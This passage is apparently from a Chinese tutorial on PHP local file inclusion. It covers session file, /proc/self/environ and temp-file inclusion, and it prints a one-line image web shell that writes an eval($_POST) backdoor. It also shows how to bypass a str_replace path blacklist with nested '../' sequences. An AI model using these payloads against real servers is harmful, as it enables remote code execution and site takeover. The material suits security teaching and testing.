 ### 包含session

可以先尝试包含到session文件，再根据session文件内容寻找可控变量，再构造payload插入到文件中，最后包含即可。

**前提**

- 找到Session内的可控变量
- Session文件可读写，并且知道存储路径

session常见存储路径：

```
/var/lib/php/sess_PHPSESSID
/var/lib/php/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
session文件格式： sess_[phpsessid] ，而 phpsessid 在发送的请求的 cookie 字段中可以看到。
```

### 包含/pros/self/environ

`proc/self/environ`中会保存`user-agent`头，如果在`user-agent`中插入php代码，则php代码会被写入到environ中，之后再包含它，即可。

利用条件：

- php以cgi方式运行，这样environ才会保持UA头。
- environ文件存储位置已知，且environ文件可读。

### 包含临时文件

php中上传文件，会创建临时文件。在linux下使用/tmp目录，而在windows下使用c:\winsdows\temp目录。在临时文件被删除之前，利用竞争即可包含该临时文件。

**如何获取临时文件的文件名**：

由于包含需要知道包含的文件名。一种方法是进行暴力猜解，linux下使用的随机函数有缺陷，而window下只有65535中不同的文件名，所以这个方法是可行的。

另一种方法是配合phpinfo页面的php variables，可以直接获取到上传文件的存储路径和临时文件名，直接包含即可。这个方法可以参考。

### 包含上传文件（先上传，后包含）

假设已经上传一句话图片木马到服务器，路径为`/upload/201811.jpg`。

图片代码如下：

```php
<?fputs(fopen("shell.php","w"),"<?php eval($_POST['pass']);?>")?>
```

**然后访问URL：`http://www.xxxx.com/index.php?page=./upload/201811.jpg`，包含这张图片，将会在index.php所在的目录下生成shell.php**。

## 防御

### 黑名单

使用 `str_replace()` 函数把 `http://`、`https://`、`../`、`..\` 替换为了空值，来防止远程文件包含和相对路径的文件包含。

**绕过**：在 `http://` 中再嵌套一个 `http://` ，以及在 `../` 中多嵌套一个 `../`，在 URL 中输入包含的文件名为 `..././..././phpinfo.php`，则可以绕过限制；另外，也可以使用绝对路径的文件包含。
